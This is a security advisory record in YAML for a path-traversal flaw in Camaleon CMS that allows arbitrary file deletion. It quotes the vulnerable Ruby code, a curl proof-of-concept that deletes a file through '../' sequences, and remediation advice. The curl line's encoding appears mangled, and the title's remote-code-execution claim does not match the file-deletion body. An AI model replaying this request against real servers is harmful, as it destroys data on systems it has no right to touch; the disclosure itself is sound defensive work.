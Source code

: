 ```yaml
---
layout: advisory
title: 'GHSA-3hp8-6j24-m5gm (camaleon_cms): Camaleon CMS vulnerable to remote code
  execution through code injection (GHSL-2024-185)'
comments: false
categories:
- camaleon_cms
advisory:
  gem: camaleon_cms
  ghsa: 3hp8-6j24-m5gm
  url: https://github.com/owen2345/camaleon-cms/security/advisories/GHSA-7x4w-cj9r-h4v9
  title: Camaleon CMS vulnerable to remote code execution through code injection (GHSL-2024-185)
  date: 2024-09-23
  description: |
    The [actions](https://github.com/owen2345/camaleon-cms/blob/feccb96e542319ed608acd3a16fa5d92f13ede67/app/controllers/camaleon_cms/admin/media_controller.rb#L51-L52) defined inside of the MediaController class do not check whether a given path is inside a certain path (e.g. inside the media folder). If an attacker performed an account takeover of an administrator account (See: GHSL-2024-184) they could delete arbitrary files or folders on the server hosting Camaleon CMS. The [crop_url](https://github.com/owen2345/camaleon-cms/blob/feccb96e542319ed608acd3a16fa5d92f13ede67/app/controllers/camaleon_cms/admin/media_controller.rb#L64-L65) action might make arbitrary file writes (similar impact to GHSL-2024-182) for any authenticated user possible, but it doesn't seem to work currently.

    Arbitrary file deletion can be exploited with following code path:
    The parameter folder flows from the actions method:
    ```ruby
      def actions
        authorize! :manage, :media if params[:media_action] != 'crop_url'
        params[:folder] = params[:folder].gsub('//', '/') if params[:folder].present?
        case params[:media_action]
        [..]
        when 'del_file'
          cama_uploader.delete_file(params[:folder].gsub('//', '/'))
          render plain: ''
    ```
    into the method delete_file of the CamaleonCmsLocalUploader
    class (when files are uploaded locally):
    ```ruby
    def delete_file(key)
      file = File.join(@root_folder, key)
      FileUtils.rm(file) if File.exist? file
      @instance.hooks_run('after_delete', key)
      get_media_collection.find_by_key(key).take.destroy
    end
    ```
    Where it is joined in an unchecked manner with the root folder and
    then deleted.

    ## Proof of concept
    The following request would delete the file README.md in the top folder of the Ruby on Rails application. (The values for auth_token, X-CSRF-Token and _cms_session would also need to be replaced with authenticated values in the curl command below)
    ```
    curl --path-as-is -i -s -k -X $'POST' \
        -H $'X-CSRF-Token: [..]' -H $'User-Agent: Mozilla/5.0' -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H $'Accept: */*' -H $'Connection: keep-alive' \
        -b $'auth_token=[..]; _cms_session=[..]' \
        --data-binary $'versions=&thumb_size=&formats=&media_formats=&dimension=&private=&folder=..
    2F..
    2F..
    2FREADME.md&media_action=del_file' \
        $'https://<camaleon-host>/admin/media/actions?actions=true'
    ```

    ## Impact

    This issue may lead to a defective CMS or system.

    ## Remediation

    Normalize all file paths constructed from untrusted user input before using them and check that the resulting path is inside the
    targeted directory. Additionally, do not allow character sequences such as .. in untrusted input that is used to build paths.

    ## See also:

    [CodeQL: Uncontrolled data used in path expression](https://codeql.github.com/codeql-query-help/ruby/rb-path-injection/)
    [OWASP: Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
  patched_versions:
  - ">= 2.8.1"
  related:
    url:
    - https://github.com/owen2345/camaleon-cms/security/advisories/GHSA-7x4w-cj9r-h4v9
    - https://github.com/rubysec/ruby-advisory-db/blob/master/gems/camaleon_cms/GHSA-7x4w-cj9r-h4v9.yml
    - https://github.com/advisories/GHSA-3hp8-6j24-m5gm
---
```

